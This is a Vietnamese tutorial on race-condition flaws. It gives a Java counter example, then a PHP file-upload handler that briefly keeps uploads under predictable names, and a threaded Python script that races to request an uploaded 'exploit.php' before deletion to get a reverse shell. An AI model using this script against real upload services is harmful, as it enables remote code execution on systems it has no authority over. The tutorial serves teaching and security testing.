

Xin chào các bạn đây là mục mà mình sẽ chia sẻ về Race-conditions
Trước mình có làm 1 bài trong BKSEC rồi nhưng mà lần này thì kĩ hơn nhá ^^

# Race-conditions là gì ?
“Race condition xảy ra khi hai hoặc nhiều tiến trình cùng truy cập vào một tài nguyên và thực hiện các thao tác trên tài nguyên đó mà không được đồng bộ hóa đúng cách. Khi đó, kết quả của các thao tác này có thể không đúng hoặc không như mong đợi.”
ĐÂY khái niệm mình đã tham khảo được trong page của VNPT Sec
hiểu nôm na là bình thường trang web sẽ có một luồng xử lí riêng cho mình nếu mà developer không để ý mà để một tiến trình khác thực hiền khi tiến trình này chưa thực hiện xong thì có thể dẫn đến sai kết quả hoặc nghiêm trọng hơn để có thể nhanh hơn thì bạn bắt buộc phải viết tool(script) rồi vì bạn không thể nhanh hơn máy tính về khoản này đúng không ^^

Đây là một ví dụ code để các bạn hiểu rõ hơn
Nguồn : VNPT Cyber :<
<code>
public class Main {
public static void main(String[] args) {
Counter counter = new Counter();
Thread thread1 = new Thread(() -> {
for (int i = 0; i < 1000; i++) {
counter.increment();
}
});
Thread thread2 = new Thread(() -> {
for (int i = 0; i < 1000; i++) {
counter.increment();
}
});
thread1.start();
thread2.start();
try {
thread1.join();
thread2.join();
} catch (InterruptedException e) {
e.printStackTrace();
}
System.out.println(“Count: ” + counter.getCount());
}
}
class Counter {
private int count = 0;
public void increment() {
count++;
}
public int getCount() {
return count;
}
}
</code>

-- Có một vài phương pháp để tránh Race-condition là sử dụng khóa lock để đảm bảo rằng chỉ có một tiến trình có thể truy cập vào tài nguyên ở cùng một thời điểm và các biến đồng bộ để đảm bảo luồng đúng,...

<code>
<?php
session_start();
function is_malware($file_path)
{
//Kiểm tra xem nội dung file có phù hợp, có bị chứa mã độc…
}
function is_image($path, $ext)
{
//Kiểm tra có đúng là file ảnh hay không?
}
if (isset($_FILES) && !empty($_FILES)) {
$uploadpath = “tmp/”;
$ext = pathinfo($_FILES[“files”][“name”], PATHINFO_EXTENSION);
$filename = basename($_FILES[“files”][“name”], “.” . $ext);
$timestamp = time();
$new_name = $filename . ‘_’ . $timestamp . ‘.’ . $ext;
$upload_dir = $uploadpath . $new_name;
if ($_FILES[‘files’][‘size’] <= 10485760) {
move_uploaded_file($_FILES[“files”][“tmp_name”], $upload_dir);
}
else {
echo $error2 = “Kích thước file lớn hơn mức cho phép”;
}
if (is_image($upload_dir, $ext) && !is_malware($upload_dir)){
$_SESSION[‘context’] = $success;
}
else {
$_SESSION[‘context’] = $error;
}
unlink($upload_dir);
}
?>
</code>

## đây là code demo cơ bản
giải thích: khi mà upload lên đổi tên file vì này là white-box nên mình có thể biết trước được file tạo ra kiểm tra file xem có trai quy didnjj hay không là dùng hàm unlink để xóa file đó đi
-- Vậy nếu mình truy cập vào trong file đó trước khi xóa thì sao nhỉ

## Cách thức khai thác là nhanh hơn máy tính mà nhanh hơn thì dùng máy tính thoi &&
- Nếu upload hợp lệ thì trả thông tin của ảnh và file name
- Nếu không hợp lệ báo lỗi -> xóa file
Vì vậy mình sẽ dùng intruder của burp + python để tấn công trước khi xóa file :>
<code>
import time
import requests
from multiprocessing.dummy import Pool as ThreadPool

current_timestamp = int(time.time())
new_timestamp = current_timestamp + 5
file_name = “exploit.php”
print(new_timestamp)
proxies = {“http”:”127.0.0.1:8080″,”https”:”127.0.0.1:8080″}
def get(i):
while True:

with open(file_name, “rb”) as file:

response = requests.post(“http://[URL]/”, files={“files”: file}, proxies=proxies)

download_path = f”/tmp/exploit_{new_timestamp}.php”
download_url_with_timestamp = f”http://[URL]{download_path}”
response = requests.get(download_url_with_timestamp, proxies=proxies)

pool = ThreadPool(50)
result = pool.map_async( get, (range(50)) ).get(0xffff)
</code>

-- ở đây tăng time lên hơn 5s để đảm bảo file còn tồn tại 
-- tên file name upload là exploit.php
-- Định nghĩa một proxies để sử dụng proxy ở địa chỉ “127.0.0.1:8080” cho request HTTP và HTTPS (xem log bằng Burp suite)
-- Định nghĩa một hàm get(i) để thực hiện quá trình truy cập file nhằm kích hoạt revershell
Trong vòng lặp, file “exploit.php” được mở để đọc dữ liệu dưới dạng binary ("rb").
-- Sử dụng thư viện requests, gửi một yêu cầu POST đến URL mục  tiêu với file được đính kèm trong phần body
-- Định nghĩa đường dẫn download_path để truy cập file, với tên file là "new_timestamp" (vd: “/tmp/exploit_1622025632.php”).
-- Sử dụng requests để gửi một yêu cầu GET đến URL đã định nghĩa
Quá trình lặp lại các bước và sẽ tiếp tục cho đến khi kết thúc chương trình.

Nguồn : sec.vpnt.vn :3

Ngoài ra có thể cài extensions của burp-pro có turbo intruder nha
Đọc thêm
<a href="https://viblo.asia/p/testing-for-race-condition-Yym40yoKJ91" >
